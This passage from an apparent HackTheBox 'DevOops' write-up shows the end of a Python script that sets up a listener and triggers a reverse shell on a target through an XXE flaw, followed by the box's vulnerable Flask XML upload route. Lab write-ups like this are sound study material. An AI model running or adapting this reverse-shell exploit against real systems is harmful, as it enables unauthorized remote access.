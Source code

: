 ```py
    r.post(url, data=data, proxies=proxies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-i', '--ip', help='IP to receive the shell back', required=True)
    parser.add_argument('-p', '--port', help='Port to receive the shell back', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.ip
    lport = args.port

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the payload to send
    payload(lhost,lport)
    # Trigger the reverse
    triggerReverse(rhost,payload)

if __name__ == '__main__':
    main()
```

The same way we can see on `feed.py` the UPLOAD function, which we explored to get XEE working

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2007:47:40.png)

```py
@app.route('/upload', methods=['GET', 'POST'])                                                           
def upload_file():                                  
  if request.method == 'POST':                      
     # check if the post request has the file part
     if 'file' not in request.files:                
        #flash('No file part')                                                                           
        return redirect(request.url)                
     file = request.files['file']
     # if user does not select file, browser also
     # submit a empty part without filename
     if file.filename == '':
        #flash('No selected file')
        return redirect(request.url)
     if file and allowed_file(file.filename):
        filename = secure_filename(file.filename)
        file.save(os.path.join(Config.UPLOAD_FOLDER, filename))
        return process_xml(filename, os.path.abspath(Config.UPLOAD_FOLDER))
        # return redirect(url_for('uploaded_file',filename=filename))
  return template('upload.html')
```
